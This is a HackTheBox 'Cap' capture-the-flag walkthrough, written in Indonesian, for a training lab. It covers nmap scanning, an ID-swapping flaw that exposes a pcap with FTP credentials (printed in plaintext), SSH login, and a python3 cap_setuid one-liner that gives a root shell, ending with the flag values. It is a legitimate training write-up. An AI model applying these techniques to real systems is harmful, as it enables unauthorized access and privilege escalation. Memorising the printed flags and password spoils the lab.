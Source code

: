 # Information Gathering
## Nmap Scan
```
┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux]
└─$ nmap -p- 10.10.10.245 --min-rate 1000 
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.61 seconds

┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux/cap]
└─$ sudo nmap -p21,22,80 -sV -sS 10.10.10.245
[sudo] password for me: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 13:32 WIB
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.97% done; ETC: 13:34 (0:00:00 remaining)
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.97% done; ETC: 13:34 (0:00:00 remaining)
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=12/29%Time=6770ECEF%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Sun,\x2029\x20Dec\x202024\x2006:17:16\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sun
SF:,\x2029\x20Dec\x202024\x2006:17:16\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x
SF:20OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Sun,\x2029\x20Dec\x202024\x2006:17:21\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.99 seconds

```


# Getting User Flag

## Crendential in pcap file
saya mencoba untuk mengakses http://10.10.10.245/ dan saya mendapatkan tampilan dashboard seperti berikut ini
![[Pasted image 20241229142046.png]]

Pada side menu di sebelah kiri, terdapat 4 menu:

- **Dashboard**: Menampilkan grafik events.
- **Security Snapshot (5 Second PCAP + Analysis)**: Menjalankan capture traffic.
- **IP Config**: Menampilkan interface dan IP, mirip dengan perintah `ifconfig` pada terminal.
- **Network Status**: Menampilkan daftar jaringan yang terhubung, serupa dengan output dari `ss -tupln` atau `netstat`.

Di sini, saya mencoba mengakses **Security Snapshot (5 Second PCAP + Analysis)** dan diarahkan ke http://10.10.10.245/data/1. Hal yang menarik adalah ketika saya mengganti ID pada URL ke 2, 3, 4, dan seterusnya, saya justru diarahkan kembali ke http://10.10.10.245. Kemudian, setelah saya mencoba mengklik lagi menu **Security Snapshot (5 Second PCAP + Analysis)**, saya dapat mengakses http://10.10.10.245/data/2. Seperti yang tercermin pada nama menu tersebut, sepertinya setiap nomor data mewakili data baru yang diperbarui setiap 5 detik setiap kali menu ini diklik.

Saya sempat terjebak lama di sini, hingga akhirnya saya mencoba memasukkan ID dengan nilai 0. Setelah itu, saya mendapatkan file pcap yang berisi request FTP dari user **nathan**.

![[Pasted image 20241229143040.png]]

buka file 0.pcap pada wireshark dan kita akan mendapatkan user dan password tersebut

![["Pasted image 20241229143157.png"]]

![[Pasted image 20241229143305.png]]

```
user:Buck3tH4TF0RM3!
```

### FTP Login
```
ftp 10.10.10.245 
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:me): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||51614|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Dec 29 07:04 user.txt
226 Directory send OK.
ftp> 
```

### SSH Login
```
┌──(me㉿justakazh)-[~/htb/HTB_Machine/linux/cap]
└─$ ssh nathan@10.10.10.245 
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[--- SNIP ---]
nathan@cap:~$ ls
user.txt                                    
nathan@cap:~$ cat user.txt                                  
65041xxxxxxxxxxxxxxxxxxx1531
```

# Getting Root Flag
## Capabilities (Linpeas)

![[Pasted image 20241229153703.png]]
setelah melakukan enumerasi menggunakan linpeas, disini saya mendapatkan `/usr/bin/python3.8`  memiliki capability  `cap_setuid` yang berarti kita dapat melakukan melakukan penyalah gunakaan capability tersebut dengan bersumber perintah untuk melakukan exploitasi dari gtfobins berikut 

- https://gtfobins.github.io/gtfobins/python/#capabilities

```
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
376c3c628849037ce15418c1928db22d
#
```

dan kita berhasil mendapatkan root.
